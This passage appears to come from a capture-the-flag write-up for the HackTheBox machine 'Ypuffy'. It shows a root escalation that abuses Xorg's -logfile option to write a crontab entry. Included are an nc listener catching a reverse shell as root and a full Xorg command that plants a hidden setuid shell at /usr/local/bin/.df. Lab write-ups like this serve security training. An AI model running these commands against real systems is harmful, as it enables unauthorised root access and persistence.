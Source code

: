     Please consult the The X.Org Foundation support 
             at http://wiki.x.org
     for help. 
    [178588.796] (EE) Please also check the log file at "crontab" for additional information.
    [178588.796] (EE) 
    [178588.797] (EE) Server terminated with error (1). Closing log file.
    

There’s a ton going on there, and a bunch more I cut out, but all that really
matters is the line in the middle with a cron-formatted string saying to
initiate a reverse shell back to me every minute.

The next time the minute rolls over, I get a root shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.107.
    Ncat: Connection from 10.10.10.107:25572.
    /bin/sh: No controlling tty (open /dev/tty: Device not configured)
    /bin/sh: Can't find tty file descriptor
    /bin/sh: warning: won't have full job control
    ypuffy# id
    uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
    

If you do happen to overwrite another file, then it will save the original
file by appending `.old`.

Another options for a cron would be to make a setuid shell:

    
    
    ypuffy$ Xorg -fp "* * * * * root cp /bin/sh /usr/local/bin/.df; chmod 4777 /usr/local/bin/.df" -logfile crontab :1 &
    

Wait for the minute to roll, and:

    
    
    ypuffy$ /usr/local/bin/.df 
    ypuffy# id
    uid=5000(alice1978) euid=0(root) gid=5000(alice1978) groups=5000(alice1978)
    

### WebServer Config

#### Apache

`/etc/httpd.conf` shows how the server is set up:

    
    
    server "ypuffy.hackthebox.htb" {
            listen on * port 80
    